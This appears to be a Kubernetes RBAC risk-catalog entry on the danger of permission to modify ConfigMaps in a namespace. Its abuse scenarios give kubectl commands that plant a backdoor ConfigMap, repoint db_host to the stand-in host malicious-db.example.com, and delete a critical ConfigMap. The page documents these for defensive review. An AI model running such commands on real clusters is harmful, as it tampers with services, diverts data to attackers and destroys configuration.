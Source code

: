```yaml
---
id: 1025
title: "Modify ConfigMaps in a namespace"
description: "Grants permission to create, update, patch, or delete ConfigMaps within a specific namespace. This allows an attacker to tamper with application configurations, potentially causing service disruption or enabling further exploitation if applications load malicious settings."
category: Tampering
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                            |
| ------------- | ------------------------------------------------------------------------------------------------ |
| ID            | 1025                                                                                             |
| Name          | Modify ConfigMaps in a namespace                                                                 |
| Risk Category | Tampering                                                                                        |
| Risk Level    | {{< risk High >}}                                                                                |
| Role Type     | Role                                                                                             |
| API Groups    | core                                                                                             |
| Resources     | configmaps                                                                                       |
| Verbs         | create, update, patch, delete                                                                    |
| Tags          | {{< tag "ConfigMapAccess" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} |

## Description

Grants permission to create, update, patch, or delete ConfigMaps within a specific namespace. This allows an attacker to tamper with application configurations, potentially causing service disruption or enabling further exploitation if applications load malicious settings.

## Abuse Scenarios

1. Create a new ConfigMap with malicious configuration in the namespace.

```bash {copy=true}
kubectl create configmap <new-cm-name> --from-literal=malicious_setting=true -n <namespace>
# Example: kubectl create configmap dev-backdoor-config --from-literal=enable_shell=true -n development

```

2. Patch an existing ConfigMap to alter application behavior within the namespace.

```bash {copy=true}
kubectl patch configmap <configmap-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/data/<key>", "value": "<new-value>"}]'
# Example: kubectl patch configmap my-app-config -n production --type='json' -p='[{"op": "replace", "path": "/data/db_host", "value": "malicious-db.example.com"}]'

```

3. Delete a critical ConfigMap within the namespace, causing disruption.

```bash {copy=true}
kubectl delete configmap <configmap-name> -n <namespace>
# Example: kubectl delete configmap my-app-env -n default

```
